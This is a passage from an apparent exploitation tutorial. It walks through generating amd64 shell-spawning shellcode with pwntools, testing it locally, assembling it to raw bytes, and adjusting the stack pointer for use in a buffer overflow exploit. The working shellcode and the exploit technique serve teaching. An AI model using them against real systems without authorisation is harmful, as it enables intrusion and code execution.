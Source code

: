 \begin{lstlisting}
>>> from pwn import *
>>> context.arch = "amd64"
>>> shellcode = shellcraft.sh()
>>> print shellcode
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall

>>> shell = run_assembly(shellcode)
[*] '/tmp/pwn-asm-EIMiA2/step3'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[x] Starting local process '/tmp/pwn-asm-EIMiA2/step3'
[+] Starting local process '/tmp/pwn-asm-EIMiA2/step3': pid 22248
>>> shell.interactive()
[*] Switching to interactive mode
whoami
devneal
exit
[*] Got EOF while reading in interactive

[*] Process '/tmp/pwn-asm-EIMiA2/step3' stopped with exit code 0 (pid 22248)
[*] Got EOF while sending in interactive
>>> asm(shellcode)
'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814\$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
>>> 
\end{lstlisting}

Both the \texttt{shellcraft} and \texttt{asm} modules behave differently
depending on which architecture is required. We specify the amd64 architecture
with \texttt{context.arch = "amd64"}. \texttt{shellcraft.amd64.sh()} returns
some preprepared shellcode. We can test that this (or any other assembly) works
by passing it to \texttt{run\_assembly()} and verify that it spawns a shell. If
we pass the shellcode to \texttt{asm()}, it will assemble those instructions and
return the resulting machine code. This is the machine code we'll use in our
exploit.

There is one more detail to be aware of before we can start writing. After we
overflow the buffer and the program executes the \texttt{ret} instruction at the
end of \texttt{main()}, the stack pointer will point one machine word below our
guessed address. But the shellcode includes seven \texttt{push} instructions.
This means that if we try to use this exploit naively the shellcode will
overwrite itself as it executes, resulting in a crash. To remedy this, we first
add 7 machine words worth of space to \texttt{rsp} before running the shellcode.

